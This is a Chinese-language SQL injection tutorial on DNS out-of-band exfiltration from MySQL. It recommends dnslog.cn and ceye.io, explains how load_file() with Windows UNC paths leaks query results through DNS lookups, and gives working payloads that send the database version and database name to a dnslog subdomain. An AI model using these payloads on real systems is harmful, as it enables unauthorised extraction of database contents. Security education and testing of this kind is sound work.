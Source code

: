 # 0x00 数据外带平台

| 平台网址          | 平台简介                                       |
| :---------------- | :--------------------------------------------- |
| http://dnslog.cn/ | 仅支持DNS数据外带                              |
| http://ceye.io/   | 支持DNS和HTTP两种数据外带方式（**推荐使用** ） |

# 0x01 DNS外带

## MYSQL 数据外带

> **外带原理**

- 利用UNC路径去访问服务器，dns会有日志，通过子查询，将内容拼接到域名内，利用MYSQL内置函数load_file()去访问共享文件，访问的域名被记录,此时变为显错注入,将盲注变显错注入,读取远程共享文件，通过拼接出函数做查询，拼接到域名中，访问时将访问服务器，记录后查看日志。

注：load_file函数在Linux下是无法用来做dnslog攻击的，涉及到Windows中的UNC路径。(linux中不存在UNC路径)

> **相关解释**

- UNC是一种命名惯例, 主要用于在Microsoft Windows上指定和映射网络驱动器. UNC命名惯例最多被应用于在局域网中访问文件服务器或者打印机。我们日常常用的网络共享文件就是这个方式。
- 利用内置函数load_file()来完成DNSLOG。
- load_file() 不仅能够加载本地文件，同时也能对诸如[www.test.com](http://www.test.com/)这样的URL发起请求。
- load_file() 加载文件' '，是对' \ '的转义，load_file读取文件和windows读取文件调用的都是c的fopen()函数，而双斜杠表示网络资源路径，即UNC路径，于是发起了dns请求

> **MYSQL dnslog条件**

- secure_file_priv **拥有读写权限**

```sql
secure_file_priv = ""       # 可以读取磁盘目录
secure_file_priv = "D:\"    # 可以读取D盘文件
secure_file_priv = null     # load_file限制，不能加载文件
```

- 在mysql 5.5.34 默认为空可以加载文件，之后的版本为NULL，不能加载文件

```
show global variables like 'secure%';  //查看是否有写限制
```

> **常用payload**

- 查看版本号

```
 ?id=1 union select 1,load_file(concat('\\\\',( select version()),'.2hlktd.dnslog.cn\\a')),3--+
```

- 查库名

```
?id=1 union select 1,load_file(concat('\\\\',( select database()),'.2hlktd.dnslog.cn\\a')),3--+
```
